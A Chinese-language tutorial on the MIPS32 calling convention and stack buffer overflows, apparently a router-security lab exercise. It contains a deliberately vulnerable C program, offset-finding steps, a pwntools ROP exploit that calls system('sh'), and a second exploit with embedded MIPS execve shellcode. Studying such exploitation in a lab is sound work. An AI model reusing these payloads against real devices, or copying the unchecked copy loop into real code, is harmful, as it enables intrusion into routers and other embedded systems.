







MIPS32 堆栈
与传统PC的x86相比，MIPS32的函数调用存在以下差异：
- MIPS架构中没有EBP（栈底指针）。
- 前四个参数分别保存在$a0-$a3寄存器中，剩下的参数从右往左依次入栈
- x86架构中，call命令调用函数时返回地址入栈，而MIPS的调用指令把函数的返回地址存入$ra寄存器。
叶子函数与非叶子函数
概念：如果一个函数A中不再调用其他任何函数，那么当前的函数A就是一个叶子函数，否则函数A就是一个非叶子函数。
在函数调用过程中，函数调用指令将返回地址复制到$ra寄存器，然后跳转到被调用的函数。
- 如果被调用的函数是叶子函数，那么在被调函数返回时直接执行jr $ra返回。
- 如果被调函数为非叶子函数，那么被调函数会先将$ra存入栈中，返回时从栈中取出保存的返回地址到$ra再执行jr $ra。
非叶子函数：
1
2
3
4
5
6
7
8
9
10
11
12
| subcall.c
#include <stdio.h>
void hello(){
printf("hello word");
}
void main()
{
hello();
}
|
交叉编译：mips-linux-gcc subcall.c -static -o subcall
使用IDA 查看subcall：

hello函数为非叶子函数，通过sw $ra, 0x20+var_4($sp)指令将$ra中的返回地址保存到栈上，在返回时通过lw $ra, 0x20+var_4($sp)指令将返回地址取回$ra。
叶子函数则无这个过程。
缓冲区溢出
如果上面的hello函数中的局部变量存在缓冲区溢出，则可通过覆盖栈上保存的$ra的值，进行漏洞利用。
家用路由器漏洞挖掘中的简单示例：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
| vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <string.h>
void do_system(int code,char *cmd)
{
char buf[255];
//sleep(1);
system(cmd);
}
int main()
{
char buf[256]={0};
char ch;
int count = 0;
unsigned int fileLen = 0;
struct stat fileData;
FILE *fp;
if(0 == stat("passwd",&fileData))
fileLen = fileData.st_size;
else
return 1;
if((fp = fopen("passwd","rb")) == NULL)
{
printf("Cannot open file passwd!\n");
exit(1);
}
ch=fgetc(fp);
while(count <= fileLen)
{
buf[count++] = ch;
ch = fgetc(fp);
}
buf[--count] = '\x00';
if(!strcmp(buf,"adminpwd"))
{
do_system(count,"ls -l");
}
else
{
printf("you have an invalid password!\n");
}
fclose(fp);
return 0;
}
|
交叉编译：
mips-linux-gcc vuln.c -static -o vuln
代码功能很简单，从passwd文件中读取密码，密码为adminpwd时密码正确，执行ls -l命令，在读取密码向buf中赋值时存在缓冲区溢出漏洞。
确定溢出点
使用py脚本构造一个600字符的字符串写入passwd：
1
2
3
| $python pattern.py create 600 > passwd
$cat passwd
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9
|
使用IDA进行动态调试：
1
2
3
| $qemu-mips -g 1234 overflow
ida连接调试端口1234
|
通过观察IDA中ra的值，ra为6E37416E，因为此程序为大端序，所以实际顺序为6E41376E

确定溢出点：
1
2
3
| $python pattern.py offset 6E41376E
hex pattern decoded as: n7An
412
|
ROP利用
程序存在do_system(int code,char *cmd)函数调用system，cmd为第二个参数，所以使用$a1寄存器传递。
漏洞利用思路：
- 寻找能够控制$a1寄存器的指令，并将’sh’传入。
- 控制$a1后跳转到do_system函数，执行system(‘sh’).
使用IDA的mipsrop插件寻找相关gadget：

其中我们可通过缓冲区溢出控制栈内容，所以可使用0x00401F80 | addiu $a1,$sp,0x58+var_40 | jr 0x58+var_4($sp)指令控制$a1寄存器。
调用do_system的地址为：0x0040066C

构造完整exp：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| from pwn import *
context(arch='mips', os='linux', endian='big', word_size=32)
cmd = 'sh'
cmd+="\x00"*(4-len(cmd)%4)
system_addr=0x0040066C
rop_addr=0x00401F80
payload = 'a'*0x19c+p32(rop_addr)
payload +='b'*0x18+cmd
payload +='c'*(0x3c-len(cmd))
payload +=p32(system_addr)
fp=open('passwd','wb')
fp.write(payload)
fp.close()
|

Shellcode 利用
从exploit-db上找一个mips架构下大端序的shellcode：https://www.exploit-db.com/shellcodes/18162
c语言版shellcode：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
| char sc[] = {
"\x28\x06\xff\xff" /* slti a2,zero,-1 */
"\x3c\x0f\x2f\x2f" /* lui t7,0x2f2f */
"\x35\xef\x62\x69" /* ori t7,t7,0x6269 */
"\xaf\xaf\xff\xf4" /* sw t7,-12(sp) */
"\x3c\x0e\x6e\x2f" /* lui t6,0x6e2f */
"\x35\xce\x73\x68" /* ori t6,t6,0x7368 */
"\xaf\xae\xff\xf8" /* sw t6,-8(sp) */
"\xaf\xa0\xff\xfc" /* sw zero,-4(sp) */
"\x27\xa4\xff\xf4" /* addiu a0,sp,-12 */
"\x28\x05\xff\xff" /* slti a1,zero,-1 */
"\x24\x02\x0f\xab" /* li v0,4011 */
"\x01\x01\x01\x0c" /* syscall 0x40404 */
};
|
漏洞利用思路：
- 将栈上保存的$ra寄存器值修改为shellcode地址，返回时跳转到shellcode执行
构造payload：
1
| payload = 'a'*0x19c+p32(shell_addr)+shellcode
|
根据刚才发送的600个字符串，0x76FFEE44地址保存$ra的值，可将shellcode写到它的下一个地址0x76FFEE48。

所以shell_addr = 0x76FFEE48
完整poc：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
| from pwn import *
context(arch='mips', os='linux', endian='big', word_size=32)
shellcode="\x28\x06\xff\xff"
shellcode+="\x3c\x0f\x2f\x2f"
shellcode+="\x35\xef\x62\x69"
shellcode+="\xaf\xaf\xff\xf4"
shellcode+="\x3c\x0e\x6e\x2f"
shellcode+="\x35\xce\x73\x68"
shellcode+="\xaf\xae\xff\xf8"
shellcode+="\xaf\xa0\xff\xfc"
shellcode+="\x27\xa4\xff\xf4"
shellcode+="\x28\x05\xff\xff"
shellcode+="\x24\x02\x0f\xab"
shellcode+="\x01\x01\x01\x0c"
shell_addr=0x76FFEE48
payload = 'a'*0x19c+p32(shell_addr)+shellcode
fp=open('passwd','wb')
fp.write(payload)
fp.close()
|

这里存在问题，将payload写入passwd后直接执行vuln，程序出错。通过IDA动态调试的方式运行，成功获得了shell。猜测是MIPS CACHE INCOHERENCY的问题，后续将深入研究。
参考连接
《揭秘家用路由器0day漏洞挖掘技术》
https://0x43434343.com/2018/02/01/EXPLOITING-BUFFER-OVERFLOWS-ON-MIPS-ARCHITECTURES/